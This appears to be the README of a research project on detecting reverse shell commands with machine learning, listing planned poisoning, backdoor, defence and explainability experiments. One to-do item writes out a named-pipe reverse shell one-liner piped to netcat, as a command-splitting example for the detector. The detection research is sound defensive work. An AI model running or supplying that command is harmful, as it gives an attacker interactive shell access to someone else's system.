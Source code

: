 # Quasar: Reverse Shell Detection with Machine Learning

<img src="img/quasaroutflow.png" height="400">

> NOTE: Starting tensorboard session for a logdir foler: `tensorboard --logdir FOLDER --port 8080`

## ToDo

1. Adversarial robustness tests:
   1. Poisoning:
      1. pollution: ~~code~~ (`adversarial_poisoning_pollution.py`) | run
      2. backdoor (sparse region): ~~code~~ (`adversarial_poisoning_bacdoor.py`) | run

      > NOTE: If results for some runs are anomalous -- delete files and rerun. This might be because some script runs blue-screen'ed my laptop, and best model from training was interrupted might actually be not optimal.

   2. Signature baseline -- stay robust? Worth showing.
   3. Defend:
      1. ~~adversarial training~~ (draw scheme)
      2. hybrid approach: ML + signatures in process?

2. Command splitting, e.g.: `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc` to passing through ML model as separate commands?
   > Battista: "Used in Certification schemes." <-- ??

3. Explainability tests (???):
   1. Integrated gradients TODO
   2. Attention weights from transformer TODO
